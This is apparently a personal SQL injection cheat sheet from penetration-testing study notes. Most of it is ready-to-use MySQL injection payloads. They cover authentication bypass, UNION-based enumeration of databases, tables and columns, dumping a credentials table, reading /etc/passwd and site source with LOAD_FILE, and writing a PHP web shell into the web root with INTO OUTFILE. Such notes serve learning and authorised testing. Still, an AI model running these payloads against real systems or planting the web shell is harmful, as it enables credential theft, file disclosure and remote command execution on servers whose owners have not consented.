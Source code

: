 
In-band
	union based
	error based
Blind
	boolean based
	time based
	
Out-of-band


# Authentication bypass
```
Discovery
Payload   URL Encoded
'	%27
"	%22
#	%23
;	%3B
)	%29


SELECT * FROM logins WHERE username='admin' or '1'='1' AND password = 'something';

```

# Using Comments
```
-- -
#
-- (Space after)
```

# Union Clause
```
mysql> SELECT * FROM ports UNION SELECT * FROM ships;
Using ORDER BY
	' order by 1-- -
Using UNION
	cn' UNION select 1,2,3-- -


```

# Exploit
Identify # of column --> ID Database --> ID Table --> ID Columns
```
Select @@Version
Select POW(1,1)
Select sleep(5)


```
## INFORMATION_SCHEMA Database
The INFORMATION_SCHEMA database contains metadata about the databases and tables present on the server.
List of databases
List of tables within each database
List of columns within each table

### SCHEMATA
The table SCHEMATA in the INFORMATION_SCHEMA database contains information about all databases on the server.
```

mysql> SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;

cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -

cn' UNION select 1,database(),2,3-- -


```
## Tables
The TABLES table contains information about all tables throughout the database.
```
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -


```

## Columns
The COLUMNS table contains information about all columns present in all the databases.

```
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -

```

## Data
```
cn' UNION select 1, username, password, 4 from dev.credentials-- -


```

# Reading data
```
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user

cn' UNION SELECT 1, user(), 3, 4-- -
cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -

SELECT super_priv FROM mysql.user
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE user="root"-- -



```

## Load_file
```
SELECT LOAD_FILE('/etc/passwd');
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -

```

# Writing Files
```
SHOW VARIABLES LIKE 'secure_file_priv';

SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"

cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -



SELECT * from users INTO OUTFILE '/tmp/credentials';

select 'file written successfully!' into outfile '/var/www/html/proof.txt'


cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -


Webshell -php
<?php system($_REQUEST[0]);?>
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -


cn' union select 1,'<?php system($_REQUEST[0]); ?>',3,4,5 into outfile '/var/www/html/dashboard/shell.php'-- -



```
